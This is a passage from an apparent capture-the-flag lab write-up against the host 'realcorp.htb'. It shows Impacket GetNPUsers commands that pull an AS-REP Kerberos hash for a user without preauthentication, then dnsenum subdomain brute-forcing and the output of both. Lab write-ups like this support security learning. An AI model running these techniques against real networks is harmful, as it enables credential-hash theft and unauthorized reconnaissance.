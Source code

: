 Using impackets GetNPUsers on the the discovered user and domain, we see that preauthentication is not required and retrieve a TGT for `j.nakazawa`. This hash does however not easily crack and seems to be a rabbit hole.

```
$ GetNPUsers.py -dc-ip 10.129.162.100 realcorp.htb/j.nakazawa -no-pass -format hashcat
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for j.nakazawa
$krb5asrep$18$j.nakazawa@REALCORP.HTB:baa85f441ae6dfb718c4b4be3c781715$3526860e00b060c29818959f03877c23a062f7198b9f3f8c9be4c2ed1190edf46bf091ccfb51e34afde275be7b142a561e86b1b83fdcb760d9a03c33bb3364073d755e82c69f82ff2d910f4d0ef5d46584ca45bf30e5add4b99a45c9316c5ac8b46b4ae34aa5b9ebeff1513ca31ab702b529604f5c5d6eff2f3b3b5bf8d64411f695eaea3b634989f0cc41d5235c83d29316886f9636bee1d72f557398f212e8d62209e48b7afd3be525769c08759379233d813a7eec0c1034d672b03124c4c9c12d99d21534d91d72877255ee16cf17eb81dbeb10bebb302739
```

Using dnsenum we can identify 3 subdomains in the network which are on a different subnet. We can't reach this subnet right now but we might be able to reach it through squid, so we'll go there next.

```
$ dnsenum --dnsserver 10.129.162.100 -f /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt realcorp.htb
dnsenum VERSION:1.2.6

-----   realcorp.htb   -----


Host's addresses:
__________________



Name Servers:
______________

ns.realcorp.htb.                         259200   IN    A        10.197.243.77


Mail (MX) Servers:
___________________



Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: ns.realcorp.htb at /usr/bin/dnsenum line 900.

Trying Zone Transfer for realcorp.htb on ns.realcorp.htb ... 
AXFR record query failed: no nameservers


Brute forcing with /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt:
__________________________________________________________________________________

ns.realcorp.htb.                         259200   IN    A        10.197.243.77
proxy.realcorp.htb.                      259200   IN    CNAME    ns.realcorp.htb.
ns.realcorp.htb.                         259200   IN    A        10.197.243.77
wpad.realcorp.htb.                       259200   IN    A        10.197.243.31

...[snip]...
```
